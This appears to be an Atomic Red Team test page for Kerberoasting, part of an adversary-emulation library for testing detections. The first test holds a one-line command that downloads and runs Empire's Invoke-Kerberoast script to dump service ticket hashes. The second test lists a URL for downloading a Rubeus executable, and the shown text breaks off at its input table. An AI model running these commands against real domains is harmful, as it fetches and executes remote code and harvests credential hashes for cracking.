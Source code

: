 <br/>

## Atomic Test #1 - Request for service tickets

This test uses the Powershell Empire Module: Invoke-Kerberoast.ps1
The following are further sources and credits for this attack:
[Kerberoasting Without Mimikatz source] (https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)
[Invoke-Kerberoast source] (https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)
when executed successfully , the test displays available services with their hashes.
If the testing domain doesn't have any service principal name configured, there is no output

**Supported Platforms:** Windows

**auto_generated_guid:** 3f987809-3681-43c8-bcd8-b3ff3a28533a

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
iex(iwr https://raw.githubusercontent.com/EmpireProject/Empire/08cbd274bef78243d7a8ed6443b8364acd1fc48b/data/module_source/credentials/Invoke-Kerberoast.ps1 -UseBasicParsing)
Invoke-Kerberoast | fl
```

#### Dependencies: Run with `powershell`!

##### Description: Computer must be domain joined

##### Check Prereq Commands:

```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
Write-Host Joining this computer to a domain must be done manually
```

<br/>
<br/>

## Atomic Test #2 - Rubeus kerberoast

Information on the Rubeus tool and it's creators found here: https://github.com/GhostPack/Rubeus#asreproast
This build targets .NET 4.5. If targeting a different version you will need to compile Rubeus

**Supported Platforms:** Windows

**auto_generated_guid:** 14625569-6def-4497-99ac-8e7817105b55

#### Inputs:

| Name             | Description                                                         | Type   | Default Value                                                                                                  |
| ---------------- | ------------------------------------------------------------------- | ------ | -------------------------------------------------------------------------------------------------------------- |
| local_folder     | Local path of Rubeus executable                                     | path   | PathToAtomicsFolder&#92;..&#92;ExternalPayloads                                                                |
| local_executable | name of the rubeus executable                                       | string | rubeus.exe                                                                                                     |
| out_file         | file where command results are stored                               | string | rubeus_output.txt                                                                                              |
| rubeus_url       | URL of Rubeus executable                                            | url    | https://github.com/morgansec/Rubeus/raw/de21c6607e9a07182a2d2eea20bb67a22d3fbf95/Rubeus/bin/Debug/Rubeus45.exe |
| flags            | command flags you would like to run (optional and blank by default) | string |                                                                                                                |
